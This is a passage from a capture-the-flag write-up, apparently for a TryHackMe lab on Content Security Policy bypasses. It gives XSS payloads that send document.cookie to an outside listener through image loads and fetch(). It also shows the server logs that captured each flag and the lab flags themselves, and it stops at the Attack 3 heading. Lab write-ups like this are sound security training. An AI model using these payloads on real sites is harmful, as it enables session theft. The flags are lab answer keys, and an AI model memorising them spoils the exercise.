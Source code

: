 For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>

#  CSP Sandbox
Time to put your practice to test! I've created a VM that is intentionally vulnerable to XSS but uses various content security policies to mitigate it. You should be able to test what you've learned so far. It consists of 10 challenges, 7 of which are attack and 3 are defend, and also a playground where you can test your own CSP configurations.

You can access the introduction at http://10.10.120.18/. 



# Attack 1

Content-Security-Policy: default-src * 'unsafe-inline';

```js
<script>fetch(`http://10.11.43.119:8080/${document.cookie}`)</script>
```

```bash
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.11.43.119 - - [21/Aug/2021 12:03:02] "GET / HTTP/1.1" 200 -
10.10.120.18 - - [21/Aug/2021 12:03:09] code 404, message File not found
10.10.120.18 - - [21/Aug/2021 12:03:09] "GET /flag=THM%7BTh4t_W4s_Pr3tty_3asy%7D HTTP/1.1" 404

```
Flag : THM{Th4t_W4s_Pr3tty_3asy}


# Attack 2


Content-Security-Policy: default-src *; style-src 'self'; script-src data:


```js
"/>'><script src=data:text/javascript,fetch(`http://10.11.43.119:8080/${document.cookie}`)></script>
```

```bash
10.11.43.119 - - [21/Aug/2021 12:12:32] "GET / HTTP/1.1" 200 -
10.10.120.18 - - [21/Aug/2021 12:12:40] code 404, message File not found
10.10.120.18 - - [21/Aug/2021 12:12:40] "GET /flag=THM%7BUs1ng_data:_1snt_Any_S4fer%7D HTTP/1.1" 404 -
```

Flag : THM{Us1ng_data:_1snt_Any_S4fer}

# Attack 3
